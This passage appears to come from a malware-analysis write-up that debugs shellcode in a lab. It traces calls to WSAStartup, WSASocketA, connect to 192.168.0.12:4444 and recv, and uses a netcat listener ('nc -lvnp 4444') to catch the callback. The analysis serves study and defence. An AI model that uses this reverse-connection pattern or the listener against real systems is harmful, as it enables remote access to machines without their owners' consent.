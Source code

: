 ```c
int WSAAPI connect(
  [in] SOCKET         s     108, // A descriptor identifying an unconnected socket
  [in] const sockaddr *name 0x19FD90, // * to sockaddr struct 
  [in] int    namelen       10 // len() in bytes of the sockaddr pointed to by the _name_ param
);
```

Okay, lets lay this out:

```c
LoadLibraryA('ws2_32');
WSAStartup(190, 0x19FD9C);
WSASocketA(2,1,0,0,0,0);
connect(108, 0x19FD90, 10);
```

In the sockaddr struct used in the connect function, the IP address and port to which we should attempt to connect are specified. 

![]({{site.baseurl}}/images/Pasted image 20240515152658.png)

```c
const sockaddr *name {
	port: 4444 <- 0x5C11 Big Endian
	ip: 192.168.0.12 
};
```

In summary, it appears that the shellcode utilizes the ws2_32 libraries, particularly functions like WSAStartup, WSASocketA, and Connect, to establish a connection to a specific IP address and port.

Let's configure a VLAN for two VMs. The first VM will be our Windows machine, where we'll perform dynamic debugging of the program. Its IP address will be set to 192.168.0.100.

The second VM will be a Linux box, where we'll run the listener on the required port. Its IP address will be set to 192.168.0.12.

```shell
nc -lvnp 4444
```

Running to the return of the connect function call we see a connection received!

![]({{site.baseurl}}/images/Pasted image 20240516082133.png)

![]({{site.baseurl}}/images/Pasted image 20240515153559.png)

Following the connection establishment, the next API called is `ws2_32_recv`.

```c
int recv(
  [in]  SOCKET s     108,
  [out] char   *buf  0x19FD90,
  [in]  int    len   0x4,
  [in]  int    flags 0
);
```

